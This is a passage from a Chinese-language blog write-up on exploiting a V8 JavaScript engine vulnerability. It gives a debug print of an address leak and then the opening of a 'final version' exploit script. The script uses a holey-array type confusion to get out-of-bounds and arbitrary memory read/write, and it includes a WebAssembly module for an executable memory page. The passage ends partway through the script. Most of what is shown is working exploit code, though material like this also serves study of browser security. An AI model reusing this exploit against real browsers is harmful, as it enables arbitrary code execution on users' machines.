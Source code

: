 ```shell
DebugPrint: 0000036308088721: [JSArray]

test!!!addr_of(obj):0x36308088721
```

## 任意代码执行

我们手上的原语现在已经足够强大了，接下来的利用方法只要参考[之前的手法](https://www.0x2l.cn/index.php/archives/151/#title-7)就可以了。我又稍微修改了一些小细节，最终版本如下：

```javascript
let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];	// 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;									// 用来将类型混淆转化为越界读写
var uint64_arw;									// 构造任意地址读写
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

// obj_leader的偏移
var obj_leader_offset;
// uint64_arw中三个关键值的相对偏移
var uint64_length_offset;	
var uint64_externalptr_offset;
var uint64_baseptr_offset;	
// 保存uint64_arw的三个关键值
var uint64_length;
var uint64_externalptr_ptr;
var uint64_baseptr_ptr;
// 指针压缩下的高32位地址
var compress_head_high32_addr;

// wasm
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_module;
var wasm_instance;
var wasm_function;
var wasm_function_addr;
var wasm_shared_info;
var wasm_data;
var wasm_instance;
var wasm_rwx;

// 用来实现类型转换
var buf =new ArrayBuffer(16);
var uint32 = new Uint32Array(buf);
var float64 = new Float64Array(buf);
var big_uint64 = new BigUint64Array(buf);
// float-->uint
function f2i(f)
{
    float64[0] = f;
    return big_uint64[0];
}
// uint-->float
function i2f(i)
{
    big_uint64[0] = i;
    return float64[0];
}
// 64-->32
```